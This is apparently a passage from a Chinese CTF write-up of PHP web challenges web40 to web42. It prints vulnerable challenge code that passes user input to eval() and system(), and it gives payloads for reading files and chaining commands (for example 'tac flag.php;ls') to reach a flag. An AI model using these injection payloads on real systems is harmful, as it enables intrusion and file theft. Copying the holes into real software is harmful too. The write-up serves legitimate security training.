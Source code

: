 `scandir()` — 列出指定路径中的文件和目录

![image-20220121214803840](https://gitee.com/blue_satchel/images/raw/master/image-20220121214803840.png)

网上的payload

- `show_source(next(array_reverse(scandir(pos(localeconv())))));`

payload()解释:通过localeconv()可以获得一个数字和货币信息关联的数组,不知道这个是干嘛的,但是其第一个元素为`.`,这样就可以通过`pos`拿到`.`并交给scandir()获取当前目录下的文件名数组,因为flag.php排在第三个,通过next和array_reverse的操作拿到flag.php的文件名传递给show_source()

但是有个疑问,为啥最后给show_source传递参数不需要pos或者current来获取当前数组中的值了呢,原来是next会在移动指针后返回当前单元的值......

- `eval(array_pop(next(get_defined_vars())));`

`array_pop()` — 弹出数组最后一个单元（出栈）

通过get_defined_vars()可以获取包含当前的全部变量的数组

### web41

```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

这题第一眼就想到用反引号来做,但是没反应

看了wp发现是利用异或运算符生成字符来绕过,等会续写脚本

### web42

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```

这题很有意思,`>/dev/null 2>&1`的意思是把所有的标准输入输入到黑洞里面(也就是不做任何显示),`2>&1`的意思是将错误输出重定向到标准输出

可以使用命令连接符`;`来让上面的操作都只操作最后一个命令,不操作前面的命令

payload`tac flag.php;ls`

### web43
